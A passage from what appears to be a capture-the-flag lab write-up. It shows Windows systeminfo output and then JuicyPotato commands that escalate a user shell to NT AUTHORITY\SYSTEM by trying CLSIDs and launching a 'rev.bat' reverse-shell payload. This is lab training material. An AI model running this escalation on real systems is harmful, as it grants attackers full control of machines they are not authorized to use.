 ```
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,256 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,306 MB
Virtual Memory: In Use:    893 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.116
                                 [02]: fe80::4ccb:aafa:2793:40a8
                                 [03]: dead:beef::ccbd:7ffa:69d9:283f
                                 [04]: dead:beef::a947:36cc:c1a8:7109
                                 [05]: dead:beef::4ccb:aafa:2793:40a8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```

I can go to the [JuicyPotato GitHub](https://github.com/ohpe/juicy-potato/tree/master/CLSID) and find a [list of CLSIDs for Windows 10 Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise). I’ll try a few that run as “NT AUTHORITY\SYSTEM” until I get one to work.

```

C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                                                      
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
COM -> recv failed with error: 10038

C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                                                      
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 9001
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```
